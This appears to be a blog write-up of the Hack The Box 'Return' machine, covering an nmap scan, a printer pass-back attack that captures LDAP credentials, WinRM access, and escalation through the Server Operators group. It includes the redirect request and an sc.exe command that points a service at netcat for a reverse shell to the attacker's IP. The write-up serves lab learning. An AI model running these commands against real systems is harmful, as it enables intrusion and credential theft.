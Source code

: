 ```yaml
---
title: HTB - Return (Easy)
date: '2025-07-12'
tags: ['machine', 'windows', 'Active Directory', 'Pass-Back Attack', 'Server Operators']
draft: false
summary: Early recon reveals a web-based LDAP Server that allows for exfiltrating sensitive credentials and gaining user access, escalating privileges by identifying the user is a member of the Server Operators group
---
```


![Description](/static/images/htb/windows/return/Return.png)

<TOCInline toc={props.toc} asDisclosure />

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.129.95.241

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-12 20:07 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating Connect Scan at 20:07
Scanning printer.return.local (10.129.95.241) [1000 ports]
Discovered open port 80/tcp on 10.129.95.241
Discovered open port 139/tcp on 10.129.95.241
Discovered open port 445/tcp on 10.129.95.241
Discovered open port 53/tcp on 10.129.95.241
Discovered open port 135/tcp on 10.129.95.241
Discovered open port 636/tcp on 10.129.95.241
Discovered open port 3268/tcp on 10.129.95.241
Discovered open port 3269/tcp on 10.129.95.241
Discovered open port 593/tcp on 10.129.95.241
Discovered open port 464/tcp on 10.129.95.241
Discovered open port 389/tcp on 10.129.95.241
Discovered open port 88/tcp on 10.129.95.241
Completed Connect Scan at 20:07, 0.31s elapsed (1000 total ports)
Initiating Service scan at 20:07
Scanning 12 services on printer.return.local (10.129.95.241)
Completed Service scan at 20:07, 8.65s elapsed (12 services on 1 host)
NSE: Script scanning 10.129.95.241.
Initiating NSE at 20:07
Completed NSE at 20:07, 10.63s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 4.64s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Nmap scan report for printer.return.local (10.129.95.241)
Host is up (0.017s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-12 12:26:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-07-12T12:26:19
|_  start_date: N/A
|_clock-skew: 18m34s

NSE: Script Post-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Scanning shows that standard ports are opened including `445` and `80`.

---

## Recon

I already tested for SMB Anonymous access but doesn't work so let's check out the webpage.

![Description](/static/images/htb/windows/return/1.jpg)

We are met with what looks like a printer page. It also has a settings page some useful information. It
reveals a valid `username` and what looks like a password

![Description](/static/images/htb/windows/return/2.jpg)

Inspecting it using dev tools does not reveal the password, its just prefilled with asterisks

![Description](/static/images/htb/windows/return/3.jpg)

Even if we try to update the settings it doesn't really update it, checking Burp, we can see an
unusual parameter

![Description](/static/images/htb/windows/return/4.jpg)

This got me thinking, what if we replace the address with our own address and open up a listener at
the specific port which it is listening which is `389` which is also the LDAP port.

```shell
POST /settings.php HTTP/1.1
Host: return.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://return.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://return.local/settings.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

ip=10.10.14.32
```

This is called the [Pass-Back Attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

![Description](/static/images/htb/windows/return/5.jpg)

And we received something that looks like a password, let us verify it along with WinRM access

![Description](/static/images/htb/windows/return/6.jpg)

---

## Gaining Access

annddd yes, we can definitely WinRM into `svc-printer` and can go ahead and grab the user flag

![Description](/static/images/htb/windows/return/7.jpg)

---

## Privilege Escalation

Runnning `whoami /priv` we can check for available privileges

![Description](/static/images/htb/windows/return/8.jpg)

We can see a lot of available privileges we can abuse such as SeBackupPrivilege, SeRestorePrivilege, SeLoadDriverPrivilege
but none of them will work. Why? because I already tried them and the only reason I could think of is Administrator is
probably not allowed to WinRM?

So I checked the Groups

![Description](/static/images/htb/windows/return/9.jpg)

`svc-printer` is a member of the `Server Operators` group which is not a vulnerability itself
but can be utilized by attackers to make changes in the domain that could escalate to system privileges

First we need to upload `netcat.exe` over to the target then list the available services

![Description](/static/images/htb/windows/return/10.jpg)

We will use the service "VMTools" and its binary path for this exploitation.

Replace the service binary with our uploaded netcat with a cmd reverse shell command

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.32 1234"
```

Start a listener. Then, stop the service and then start it again

```
sc.exe stop VMTools
sc.exe start VMTools
```

Our listener should catch the shell

![Description](/static/images/htb/windows/return/11.jpg)

Great! Now that we are SYSTEM, we can easily grab the root flag

```
type C:\Users\Administrator\Desktop\root.txt
```

![Description](/static/images/htb/windows/return/12.jpg)
